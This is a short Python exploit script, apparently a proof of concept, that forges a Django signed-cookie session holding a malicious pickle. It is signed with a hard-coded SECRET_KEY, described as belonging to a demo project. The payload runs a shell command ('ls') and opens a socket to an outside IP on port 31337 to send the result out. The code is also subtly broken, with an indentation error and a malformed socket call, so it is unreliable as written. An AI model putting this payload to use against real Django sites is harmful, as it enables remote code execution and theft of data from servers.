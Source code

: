 # scroll
滚动条
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='oa4$kkk802=rfm@tl^e5yb3qvs_ea3r!m*&j+#_+s-9=xcieci')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值


class CreateTmpFile(object):
    def __reduce__(self):
        import subprocess
         return (subprocess.call,
                (['python',
                  '-c',
                  'import os,socket;c=os.popen("ls").read().strip();'
                  's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
                  's.connect(c,("103.224.82.158",31337));'],))


sess = signing.dumps(
    obj=CreateTmpFile(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
